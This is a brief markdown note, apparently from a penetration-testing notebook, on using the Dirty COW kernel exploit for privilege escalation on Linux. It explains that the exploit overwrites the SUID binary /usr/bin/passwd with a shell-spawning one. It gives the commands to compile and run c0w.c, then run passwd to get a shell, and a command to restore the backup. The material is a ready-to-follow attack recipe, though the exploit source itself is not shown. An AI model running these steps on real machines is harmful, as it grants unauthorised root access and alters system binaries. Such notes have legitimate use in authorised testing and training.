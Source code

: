 # Dirty C0W

replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

you can download the exploit and compile/run it and gain access with running the passwd file.

```bash
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w

# it may take a while to finish

/usr/bin/passwd
```

and Boom!

{% hint style="warning" %}
remember to recover the 'passwd' file :&#x20;

```bash
mv /tmp/bak /usr/bin/passwd
```
{% endhint %}
